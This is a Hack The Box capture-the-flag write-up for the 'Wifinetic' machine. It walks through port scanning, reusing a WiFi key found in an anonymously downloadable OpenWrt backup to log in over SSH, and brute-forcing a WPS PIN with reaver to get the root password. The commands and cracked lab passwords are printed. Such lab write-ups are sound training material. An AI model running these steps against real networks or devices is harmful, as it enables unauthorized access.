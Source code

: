 # Challenge Name

<p align="center"><img src="assets/Wifinetic.png" width="400"></p>

- **Platform:** Hack The Box
- **URL:** https://app.hackthebox.com/machines/Wifinetic
- **Difficulty:** Easy
- **OS:** Linux

## Enumeration

### Port & Service Enumeration

<details>
<summary>tcp</summary>

```
ip=10.10.11.247; ports=$(sudo nmap -p- --min-rate=1000 -T4 $ip | grep "^[0-9]" | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//); sudo nmap -p$ports -sC -sV $ip -Pn

PORT   STATE SERVICE    VERSION
21/tcp open  ftp        vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp          4434 Jul 31 11:03 MigrateOpenWrt.txt
| -rw-r--r--    1 ftp      ftp       2501210 Jul 31 11:03 ProjectGreatMigration.pdf
| -rw-r--r--    1 ftp      ftp         60857 Jul 31 11:03 ProjectOpenWRT.pdf
| -rw-r--r--    1 ftp      ftp         40960 Sep 11 15:25 backup-OpenWrt-2023-07-26.tar
|_-rw-r--r--    1 ftp      ftp         52946 Jul 31 11:03 employees_wellness.pdf
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.14.89
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
53/tcp open  tcpwrapped
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
</details>

### Web Enumeration

## Foothold

### `user1` → `netadmin` 🚩

#### Searching for Vulnerabilities

- ftp server allows anonymous login and contains an OpenWRT backup
- after extracting the tar archive, the file `etc/config/wireless` contains a password:
    
    ```
    config wifi-iface 'wifinet0'
    	option device 'radio0'
    	option mode 'ap'
    	option ssid 'OpenWrt'
    	option encryption 'psk'
    	option key 'VeRyUniUqWiFIPasswrd1!'
    	option wps_pushbutton '1'
    ```
    
- the file `etc/passwd` shows, that user `netadmin` has a home directory

#### Exploitation

1. We can login via ssh as `netadmin` with password `VeRyUniUqWiFIPasswrd1!` 🚩


## Privilege Escalation

### `netadmin` → `root` 🏁

#### Searching for Vulnerabilities

- `iwconfig` output shows, that there is a interface `mon0` in monitor mode:
    
    ```
    eth0      no wireless extensions.
    
    wlan2     IEEE 802.11  ESSID:off/any
              Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm
              Retry short limit:7   RTS thr:off   Fragment thr:off
              Encryption key:off
              Power Management:on
    
    mon0      IEEE 802.11  Mode:Monitor  Tx-Power=20 dBm
              Retry short limit:7   RTS thr:off   Fragment thr:off
              Power Management:on
    
    wlan1     IEEE 802.11  ESSID:"OpenWrt"
              Mode:Managed  Frequency:2.412 GHz  Access Point: 02:00:00:00:00:00
              Bit Rate:9 Mb/s   Tx-Power=20 dBm
              Retry short limit:7   RTS thr:off   Fragment thr:off
              Encryption key:off
              Power Management:on
              Link Quality=70/70  Signal level=-30 dBm
              Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
              Tx excessive retries:0  Invalid misc:6   Missed beacon:0
    
    wlan0     IEEE 802.11  Mode:Master  Tx-Power=20 dBm
              Retry short limit:7   RTS thr:off   Fragment thr:off
              Power Management:on
    
    hwsim0    no wireless extensions.
    
    lo        no wireless extensions.
    ```

- the `MigrateOpenWrt.txt` file from the ftp server indicates, that the tool `reaver` might be installed:
    
    ```
    |  +-----------------------------------------------+    |
    |  |          Test and Troubleshoot                |    |
    |  +-----------------------------------------------+    |
    |  |                                               |    |
    |  |   - Test Wifi connectivity and performance    |    |
    |  |   - Verify all services are functioning       |    |
    |  |   - Address and resolve any issues            |    |
    |  |   - Test for security issues with Reaver tool |    |
    |  |                                               |    |
    |  +-----------------------------------------------+    |
    ```


#### Exploitation

1. [reaver](https://www.notion.so/reaver-92a9bcd96c3d47b6a13a3df17641d19d?pvs=21) can be used to bruteforce the WPS PIN and recover the wifi password:
    
    ```
    $ reaver -i mon0 -b 02:00:00:00:00:00 -vv
    
    Reaver v1.6.5 WiFi Protected Setup Attack Tool
    Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>
    
    [+] Waiting for beacon from 02:00:00:00:00:00
    [+] Switching mon0 to channel 1
    [+] Received beacon from 02:00:00:00:00:00
    [+] Trying pin "12345670"
    [+] Sending authentication request
    [!] Found packet with bad FCS, skipping...
    [+] Sending association request
    [+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
    [+] Sending EAPOL START request
    [+] Received identity request
    [+] Sending identity response
    [+] Received M1 message
    [+] Sending M2 message
    [+] Received WSC NACK
    [+] Sending WSC NACK
    [!] WPS transaction failed (code: 0x04), re-trying last pin
    [+] Trying pin "12345670"
    [+] Sending authentication request
    [+] Sending association request
    [+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
    [+] Sending EAPOL START request
    [+] Received identity request
    [+] Sending identity response
    [+] Received M1 message
    [+] Sending M2 message
    [+] Received M3 message
    [+] Sending M4 message
    [+] Received M5 message
    [+] Sending M6 message
    [+] Received M7 message
    [+] Sending WSC NACK
    [+] Sending WSC NACK
    [+] Pin cracked in 3 seconds
    [+] WPS PIN: '12345670'
    [+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
    [+] AP SSID: 'OpenWrt'
    [+] Nothing done, nothing to save.
    ```

2. We can login as `root` with password `WhatIsRealAnDWhAtIsNot51121!` 🏁